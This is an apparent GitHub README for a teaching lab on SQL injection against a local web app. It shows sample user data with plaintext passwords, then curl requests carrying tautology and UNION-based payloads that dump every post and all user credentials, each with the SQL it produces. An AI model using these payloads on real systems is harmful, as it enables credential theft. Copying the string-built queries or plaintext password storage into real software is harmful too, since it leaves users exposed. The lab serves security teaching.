


# appsec-validation-injection-sql

## Database model

http://localhost:8080/h2-console/login.jsp?jsessionid=6350ae370854407184e14377bbff4db7

```sql
INSERT INTO users (id, username, email, password) VALUES
  (1, 'admin', 'admin@site.internal', '(;C\b6Wva`9{:LYq'),
  (2, 'user1', 'user1@site.external', '[P:n@dzG?LF"T*2W'),
  (3, 'user2', 'user2@site.external', 'u_3AS8k%cxRN~u~q');
```

```sql
INSERT INTO posts (id, slug, title, description) VALUES
  (1, 'post-a', 'Post A', 'Description A'),
  (2, 'post-b', 'Post B', 'Description B'),
  (3, 'post-c', 'Post C', 'Description C');
```

## Retrieve post by user

The following request would retrieve the posts written by 'user1' (id = 2) which have the value 'post-a' as slug:

```bash
curl --request GET \
  --url http://localhost:8080/posts/post-a \
  --header 'referer: https://wikipedia.org'
```

The application would translate this request into the SQL query that is shown next:

```sql
SELECT id, slug, title
FROM posts, user_posts
WHERE posts.id = user_posts.post_id
  AND user_posts.user_id = 2
  AND slug = 'post-a'
```

As it can be seen, the result is a simple list with the information of post 'post-a':



## Retrieve all posts

Since the application was vulnerable to SQL injection, the original query could be altered to retrieve all posts written by any user:

```bash
curl --request GET \
  --url http://localhost:8080/posts/post-a%27%20OR%20%271%27%20=%20%271 \
  --header 'referer: https://wikipedia.org'
```

This request would be translated into the following SQL query:

```sql
SELECT id, slug, title
FROM posts, user_posts
WHERE posts.id = user_posts.post_id
  AND user_posts.user_id = 2
  AND slug = 'post-a'
  OR '1' = '1'
```

As a result, all posts stored in the database would be returned to the user:


## Retrieve all users

This type of attack could be used to even retrieve sensitive information about the users registered into the application, emails and passwords included:

```bash
curl --request GET \
  --url 'http://localhost:8080/posts/post-a%27%20UNION%20SELECT%20id,%20username,%20email,%20password%20FROM%20users%20WHERE%20%271%27=%20%271' \
  --header 'referer: https://wikipedia.org'
```

This request would generate a SQL query that would join the `posts` and `users` tables:

```sql
SELECT id, slug, title
FROM posts, user_posts
WHERE posts.id = user_posts.post_id
  AND user_posts.user_id = 2
  AND slug = 'post-a'
UNION
SELECT id, username, email, password
FROM users
WHERE '1'= '1'
```

As it is shown in the following picture, the attacker would have access to all the credentials stored in the database:


